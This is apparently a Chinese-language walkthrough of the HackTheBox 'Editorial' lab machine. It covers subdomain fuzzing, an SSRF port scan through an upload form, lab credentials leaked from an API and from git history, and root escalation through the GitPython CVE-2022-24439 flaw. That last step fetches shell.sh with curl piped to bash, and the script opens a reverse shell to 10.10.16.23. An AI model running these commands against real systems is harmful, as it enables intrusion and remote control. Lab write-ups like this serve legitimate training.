 # Editorial

端口扫描

![image-20240801094919849](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801094919849.png)



80

![image-20240801094735655](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801094735655.png)



![image-20240801094857650](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801094857650.png)

![image-20240801095038649](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801095038649.png)



子域名枚举

```
ffuf -u http://editorial.htb/ -w /home/kali/Desktop/pass/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 178,0 -t 128 -H "HOST: FUZZ.editorial.htb"
```

![image-20240801095725645](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801095725645.png)

目录扫描

![image-20240801095745618](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801095745618.png)



/about页面发现子域名timepoarriba.htb

![image-20240801100602678](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801100602678.png)

访问之后会重定向到editorial.htb

![image-20240801100836840](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801100836840.png)



![image-20240801111020827](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801111020827.png)

![image-20240801111032357](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801111032357.png)

生成端口字典开始枚举本地端口

```
 crunch 1 5 0123456789 >>ports.txt
```

![image-20240801110838943](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801110838943.png)

```
ffuf -request request -w ports.txt -v -c -request-proto http -fs 61,0 -t 128

```



```
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data;application/x-www-form-urlencoded; boundary=---------------------------313643230924860332522144103370
Content-Length: 364
Origin: http://editorial.htb
Connection: close
Referer: http://editorial.htb/upload

-----------------------------313643230924860332522144103370
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------313643230924860332522144103370
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------313643230924860332522144103370--
```

发现5000端口有东西

![image-20240801111624936](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801111624936.png)

![image-20240801111753094](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801111753094.png)

注意到虽然发的是同一个数据包，但回显却不一样，有些回显的路径有内容，有的则没有

![image-20240801112337031](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801112337031.png)

用jq处理一下json文本

```
jq is a lightweight and flexible command-line JSON processor akin to sed,awk,grep, and friends for JSON data. It's written in portable C and has zero runtime dependencies, allowing you to easily slice, filter, map, and transform structured data.
```

```
cat api|jq '.'
```

![image-20240801112816003](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801112816003.png)



访问/api/latest/metadata/messages/authors这个接口

![image-20240801113236741](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801113236741.png)

得到一些重要信息

```
Username: dev
Password: dev080217_devAPI!@
```

![image-20240801113257986](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801113257986.png)

尝试ssh登录

![image-20240801113513457](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801113513457.png)

尝试提取

![image-20240801113722004](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801113722004.png)

![image-20240801113800953](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801113800953.png)

上传linpeas.sh

![image-20240801113956006](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801113956006.png)

没有发现有用信息

dev用户下有个.git文件夹

```
git log
```

![image-20240801141454381](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801141454381.png)

```
git diff 3251 1e84
```

![image-20240801141735353](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801141735353.png)

发现prod账户密码

```
Username: prod
Password: 080217_Producti0n_2023!@
```

尝试ssh登录

![image-20240801141911721](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801141911721.png)



查看可执行的sudo命令

![image-20240801142007931](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801142007931.png)

查看/opt/internal_apps/clone_changes/clone_prod_change.py

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

注解

```
这是一个使用 Python 和 GitPython 库的脚本。以下是一行一行的解释这段代码：
#!/usr/bin/python3 这个是一个称为 shebang（或 hashbang）的特殊行，它告诉系统应使用哪个解释器来执行脚本。在这里，我们指定脚本将由位于 /usr/bin/python3 的 Python 3 解释器执行。
import os 和 import sys 这两行导入了 Python 的标准库模块 os 和 sys。os 模块用于与操作系统交互，sys 模块用于处理 Python 运行时环境的一些操作，如获取命令行参数。
from git import Repo 这一行导入了 GitPython 库的 Repo 类，用于操作 Git 仓库。
os.chdir('/opt/internal_apps/clone_changes') 这行代码使用 os 模块的 chdir 函数将当前工作目录修改为 /opt/internal_apps/clone_changes。
url_to_clone = sys.argv[1] 这行代码取命令行的第一个参数（在 Python 中，索引从 0 开始，sys.argv[0] 是脚本名，因此 sys.argv[1] 是第一个参数），并将其存储在 url_to_clone 中。
r = Repo.init('', bare=True) 这行代码创建了一个新的 Repo 对象（一个代表 Git 仓库的对象），并以 "bare" 模式初始化它。在 Git 中，一个 "bare" 仓库是没有工作目录的仓库，只包含 Git 内部的数据。
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"]) 这行代码从 url_to_clone 中克隆一个 Git 仓库，并将其作为名为 "new_changes" 的新目录。multi_options 参数中传入了一个允许所有协议的配置项。
```

这段代码存在漏洞CVE-2022-24439，poc(https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

现在本地创建一个shell.sh文件，内容如下

```
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.23/1223 0>&1'
```

![image-20240801142913767](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801142913767.png)



在靶机上执行poc

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c curl% http://10.10.16.23:9090/shell.sh|bash >&2'
```

![image-20240801143100673](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801143100673.png)

![image-20240801143119413](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240801143119413.png)



